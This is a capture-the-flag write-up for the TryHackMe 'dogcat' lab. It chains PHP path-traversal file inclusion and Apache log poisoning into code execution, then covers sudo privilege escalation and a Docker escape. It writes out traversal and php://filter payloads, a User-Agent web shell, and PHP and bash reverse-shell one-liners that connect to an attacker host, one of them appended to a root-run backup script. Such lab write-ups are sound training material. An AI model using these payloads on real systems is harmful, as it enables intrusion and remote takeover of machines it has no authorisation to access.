Machine's link: [dogcat](https://tryhackme.com/room/dogcat).
I found this machine very interesting, it goes from LFI, to RCE and container escape!
# Description
  

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats! 

# Solution
So, lets start with a basic nmap



In the site, we found a simple php website the ask us to choose if we wanna see dog or cat.
Choosing anyone it will redirect to
http://$IP/?view=dog
or
http://$IP/?view=cat

If we try to change the view for something like /etc/passwd, we receive



but, if we put something like
http://$IP/?view=dog/../../../../../../../../../etc/passwd



uhul! were going to somewhere!
i tried null byte but i wasnt able to bypass the .php filter (note that try to open /etc/passwd.php)

lets try to see the source code (it already ends with .php)!

we will use a php wrapper.
basically, our payload will be:
php://filter/convert.base64-encode/resource=dog/../../../../var/www/html/index
(ill send over burp to be easier to analyze)



now, lets see this code.



if we take a closer look at the $ext line, we can define the extension.
So, we can open any file (passing their extension or simple '').

So, PHP + LFI, sound like a log poisoning!
Lets try to access the access and error.log

we can access the access.log!



## Log poisoning
Whats log poisoning?
First, lets take a step back.
How we're opening this log?

If we look at the source code again, we will see that the file is opening by a include.

In php, if the include contains a php source code, it'll be executed as a php code!

So, log poisoning is basically put a php code in there, making and RCE!
The most common poison (and the one that were going to do) is by turning the log into a web shell!
Its probably the most common web shell php payload!
In the log, we can see that the User-Agent is stored.


So, lets try changing our user agent (mozilla etc etc) to our code!

The request will be this one



Then we can try pass the command with the cmd parameter!
(i changed the user-agent just so i dont get lost, itll also help to not execute the command a lot of times)
For example, now, calling
/?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=id
We get this



ok! in this point, we can try a rev shell!
i tried with bash, sh, python
none work
but then i tried with php and worked!
i got this payload on [pentestmonkey cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
php -r '$sock=fsockopen("<YOUR-IP>",<YOUR-PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
NOTE: this command need to be URL encoded

executing this command and opening the same port with nc, we got a rev shell!

## Post exploit!
the first thing we found, was the first flag!



with this shell, we can find the second flag too!
its just in another directory



using sudo -l, it shows that we can run env as root!
So, looking in GTFO bins, it shows that env can create a shell!
We can turn into root by simple running
	sudo /usr/bin/env /bin/bash
	


And we can get the third flag now! (i forgot the screenshot but just go to the root dir)

## Docker escape!
Now its the last step! The docker escape!
It was my second time with this and i found very interesting.

So, basically, we first need to now if this IS a docker.
a docker generally well have a .dockerenv in root. Another way to seek that is if we saw that the machine has just a few things (binaries, directories and etc). For example, youll may notice that binaries that are common on linux, isnt on the machine.

In our case, we can see a .dockerenv



(tbh, the -l flag can be ignored)

So, mapping the machine (i did manually but probably would be found with scripts like [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)), i found a script /opt/backups/backup.sh

I didnt found so much info, but i guess this script runs on the root machine, because their path didnt exist locally.
So, i append a line to get a rev shell on my machine!
i did the most common rev shell:
```
bash -i >& /dev/tcp/<YOUR-IP>/<YOUR-PORT> 0>&1
```



and now just wait!
with my netcat i got the rev shell!


